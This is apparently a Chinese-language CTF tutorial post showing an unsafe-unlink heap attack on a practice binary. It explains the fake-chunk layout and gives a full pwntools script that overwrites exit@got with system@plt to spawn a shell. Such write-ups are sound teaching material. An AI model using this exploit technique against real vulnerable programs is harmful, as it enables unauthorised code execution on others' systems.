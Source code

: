 ```yaml
---
title: unsafe unlink攻击技术示例
tags: [CTF, pwn, heap, unlink]
layout: post
categories: tutorials
---
```


在掌握了unsafe unlink的大致知识后, 这里以一个pwn题针对unsafe unlink进行一个简单的攻击示例

本节示例的漏洞程序可以从此处下载: [unsafe_unlink_example](http://od7mpc53s.bkt.clouddn.com/unsafe_unlink_example)

## 程序流程图

![unsafe_unlink_example](http://od7mpc53s.bkt.clouddn.com/unsafe_unlink_example.png)

## 攻击思路

首先程序是64位文件, 因此指针长度`size_p=8`. 我们整个的攻击思路就是, 自己先构造一个`fake_chunk`. 随后运行程序, 创建两个`chunk`, 然后向第一个chunk写入我们构造的`fake_chunk`, 这个`fake_chunk`不仅包含伪造的堆块, 还包括了堆溢出所覆盖第二个堆块的信息. 这样一来. 我们再释放掉第二个堆块, 这样自然就会使得我们的`fake_chunk`触发`unlink`操作.

接下来我们通过指针, 覆盖`exit@got`为`system@plt`, 再在菜单中选择`5`出发`exit()`就能正确执行`system`获得一个shell

## 利用代码

``` python
from pwn import *

#elf = ELF('./unsafe_unlink_example')
io = process('./unsafe_unlink_example')

size_p = 8
plt_system = 0x4009b6#elf.symbols['system']
got_exit = 0x601250#elf.got['exit']
pointer = 0x6012a0

fake_chunk = '\x00'*2*size_p + p64(pointer - 3*size_p) + p64(pointer - 2*size_p) + 'A'*(0x80-4*size_p) + p64(0x80) + p64(0x90)
overwrite = '\x00'*3*size_p + p64(got_exit)


# create node
io.recvuntil('------------------------\n')
io.sendline('1')
#io.recvuntil('create:')
io.sendline('0')

# create node
io.recvuntil('------------------------\n')
io.sendline('1')
#io.recvuntil('create:')
io.sendline('1')

# edit node
io.recvuntil('------------------------\n')
io.sendline('2')
#io.recvuntil('edit:')
io.sendline('0')
#io.recvuntil('input:')
io.sendline(str(len(fake_chunk)))
#io.recvuntil('node:')
io.sendline(fake_chunk)

# delete node
io.recvuntil('------------------------\n')
io.sendline('3')
#io.recvuntil('create:')
io.sendline('1')

# edit node
io.recvuntil('------------------------\n')
io.sendline('2')
#io.recvuntil('edit:')
io.sendline('0')
#io.recvuntil('input:')
io.sendline(str(len(overwrite)))
#io.recvuntil('node:')
io.sendline(overwrite)

# edit node
io.recvuntil('------------------------\n')
io.sendline('2')
#io.recvuntil('edit:')
io.sendline('0')
#io.recvuntil('input:')
io.sendline(str(size_p))
#io.recvuntil('node:')
io.sendline(p64(plt_system))

# exit
io.recvuntil('------------------------\n')
io.sendline('5')
io.interactive()
```
